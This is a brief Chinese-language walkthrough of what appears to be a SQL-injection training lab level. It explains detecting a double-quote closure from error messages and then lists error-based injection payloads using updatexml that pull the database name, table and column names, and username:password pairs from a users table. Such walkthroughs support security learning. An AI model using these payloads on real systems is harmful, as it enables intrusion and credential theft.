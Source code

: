 # 确认闭合类型
跟第四关的情景一样，使用单引号并不会报错  
当你使用双引号闭合输入?id=1"时就会进行报错  
那么就是进行双引号闭合

仍然有报错信息，这关还是可以使用报错注入，跟上题payload一样，单引号改双引号即可


# 查询数据库名
?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

# 查询表名
?id=1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)--+


# 查询列名
?id=1" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1)--+


# 查询值
?id=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),1,10),0x7e),1)--+

?id=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),11,10),0x7e),1)--+

?id=1" and updatexml(1,concat(0x7e,substring((select group_concat(username,':',password) from users),21,10),0x7e),1)--+

...